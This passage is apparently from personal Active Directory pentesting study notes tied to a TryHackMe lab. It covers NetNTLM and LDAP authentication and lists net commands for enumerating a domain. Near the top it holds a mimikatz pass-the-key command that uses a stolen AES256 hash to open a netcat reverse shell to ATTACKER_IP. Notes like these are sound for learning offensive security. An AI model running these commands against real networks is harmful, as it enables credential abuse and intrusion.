 AES256

`mimikatz **#** sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes256:b54259bbff03af8d37a138c375e29254a2ca0649337cc4c73addcd696b4cdb65 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"`

## NetNTLM

![Untitled](Active%20Directory%20Pentesting%2013bdf411f877497282c549a5fd16d4c9/Untitled%206.png)

- uses challenge-response methodology
- can perform Pass-the-Hash (PtH) attacks

Domain Account

1. Client attempts to access service
2. Server responds with a random number (challenge)
3. Client encrypts challenge with password hash
4. Server forwards response to Domain Controller
5. Domain Controller also encrypts challenge with user’s password hash and compares if the output is the same
6. If the output is the same access granted, otherwise denied

Local Account 

For local accounts no need to contact Domain Controller as the passwords are stored locally in the Security Account Manager (SAM) hive

## LDAP

- application verifies user credentials (instead of DC)
- common with third-party applications
    - GitHub
    - Jenkins
    - Printers
    - VPNs

![Untitled](Active%20Directory%20Pentesting%2013bdf411f877497282c549a5fd16d4c9/Untitled%207.png)

# Enumeration

- [BloodHound](https://github.com/BloodHoundAD/BloodHound) is great for enumeration
- 

Manual enumeration commands

| Command | Description |
| --- | --- |
| net user /domain | Find all users in a domain |
| net group /domain | List all groups in domain |
| net group <GROUP_NAME> /domain | List members of group |
| net accounts /domain | Enumerate password policy of domain |
- note that the `net` command defaults to the `WORKGROUP` domain if the workstation is not domain-joined
- output of `net` command may be trimmed
- PowerShell cmdlets: [https://learn.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2022-ps](https://learn.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2022-ps)
